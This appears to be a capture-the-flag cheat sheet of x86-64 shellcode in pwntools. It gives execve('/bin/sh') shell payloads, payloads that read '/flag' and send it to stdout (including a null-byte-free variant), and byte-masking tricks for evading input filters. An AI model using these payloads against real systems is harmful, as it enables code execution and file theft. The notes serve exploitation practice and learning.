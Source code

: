 # Shellcode

### basic shell 1
```python
shellcode = pwn.asm('''
    mov rax, 59;
    lea rdi, [rip + sh];
    mov rsi, 0;
    mov rdx, 0;
    syscall;
    ret;
sh:
    .string "/bin/sh"
''')
```

### basic shell 2
```python
shellcode = pwn.asm('''
    mov rax, 59;
    mov rbx, 0x0068732f6e69622f;
    push rbx;
    mov rdi, rsp;
    mov rsi, 0;
    mov rdx, 0;
    syscall;
''')
```

### send /flag 1
- overview:
```c
// 1
fd_flag = open("/flag", O_RONLY);
// 2
sendfile(stdout, fd_flag, 0, 1024);
// 3
exit(EXIT_SUCCESS); 
```
```python
shellcode = pwn.asm('''
    mov rbx, 0x00000067616c662f; # push "/flag", the 'number' is stored in little endien in memory, so acutally '/flag\x00\x00\x00' stored 
    push rbx;                    # /flag now on stack
    mov rax, 2;
    mov rdi, rsp;                # rdi now points to string /flag
    mov rsi, 0;                  # read only 
    syscall;                     # now fd_flag in rax (return value)              

    mov rdi, 1;                  # stdout
    mov rsi, rax;                
    mov rdx, 0;                  # 0 bytes offset
    mov r10, 1000;               # read 1000 bytes
    mov rax, 40;
    syscall;                     # now flag is printed in terminal

    mov rdi, 0; 
    mov rax, 60;
    syscall
''')
```

### send /flag 2
```python
shellcode = pwn.asm('''
    lea rdi, [rip + string]; # fd_flag = open("/flag", O_RDONLY)
    mov rsi, 0;
    mov rax, 2;
    syscall;
                    
    mov rdi, 1; # sendfile(stdout, fd_flag, 0, 1024)
    mov rsi, rax;
    mov rdx, 0;
    mov r10, 1000;
    mov rax, 40;
    syscall;
                             
    ret;
string:
    .string "/flag"
''')
```

### send /flag 3 (no null bytes)
```python
shellcode = pwn.asm('''
    push rbx;
    
    ;#mov rbx, 0x00000067616c662f; # fd_flag = open("/flag", O_RDONLY)
    xor rbx, rbx
    mov bl, 0x67;
    shl rbx, 32;
    add rbx, 0x616c662f;
    push rbx;
    mov rdi, rsp;
    xor rax, rax;
    mov al, 2;   
    xor rsi, rsi;
    syscall;          
     
    xor rdi, rdi; # sendfile(stdout, fd_flag, 0, 1024)
    inc rdi;
    mov rsi, rax;
    xor rdx, rdx;
    xor rax, rax;              
    mov ax, 1000;
    mov r10, rax;
    xor rax, rax;
    mov al, 40;              
    syscall;

    pop rbx;                    
    ret;    
''')
```


### Trick, mask 1 trash byte via PUSH imm8
- 1 byte fix (0x6a), then 1 byte arbitrary
```
shellcode = pwn.asm('''             
    push 0x11; # 6a11 (0x6a plus 1 byte immediate value)
''')
```


### Trick, mask 4 trash bytes via PUSH imm32
- 1 byte fix (0x64), then 4 bytes arbitrary
```
shellcode = pwn.asm('''             
    push 0x11223344; #6844332211 (0x68 plus 4 byte immediate value in little endian)
''')
```


### Trick, jump over trash bytes via JUMP rel8
- 1 byte fix (0xeb) and 1 byte jump offset (-128,+127)
```
shellcode = pwn.asm('''             
    nop; # do sth
    jmp $+2;
    .byte 0x11, 0x22;
    nop; # do sth
''')
```
- one cloud also use a label
```
shellcode = pwn.asm('''             
    nop; # do sth
    jmp continue;
trash:
    .byte 0x11, 0x22;
continue:
    nop; # do sth
''')
```